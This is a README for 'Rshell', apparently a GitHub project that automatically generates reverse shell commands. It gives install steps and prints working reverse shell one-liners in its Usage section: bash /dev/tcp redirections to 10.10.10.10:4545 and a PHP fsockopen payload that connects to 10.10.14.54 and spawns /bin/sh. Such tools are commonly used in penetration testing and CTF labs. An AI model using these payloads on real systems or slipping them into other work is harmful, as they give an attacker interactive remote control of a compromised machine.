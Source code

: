 # Rshell

Rshell is a automatic reverse shell generator

## Installation

Install [here](https://github.com/R3tr074/rshell/releases), or just execute this:

```bash
wget https://git.io/Jt5k5 -O rshell # to amd64
wget https://git.io/Jt5kA -O rshell # to i386
sudo mv rshell /usr/bin
```

or compile with source code, is easy, trust im my

```bash
git clone https://github.com/R3tr074/rshell
cd rshell
make && sudo make install
```

I say, easy

## Usage

```bash
$ rshell
bash -i >& /dev/tcp/127.0.0.1/1111 0>&1

$ export RHOST="10.10.10.10"
$ export RPORT="4545"
$ rshell
bash -i >& /dev/tcp/10.10.10.10/4545 0>&1

$ rshell -s php -p 1515
php -r '$sock=fsockopen("10.10.14.54",1515);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://github.com/R3tr074/rshell/blob/master/LICENCE)

## Problems

Some problem you can [create a issues](https://github.com/R3tr074/rshell/issues) or get in touch with [me](https://github.com/R3tr074#-get-in-touch)
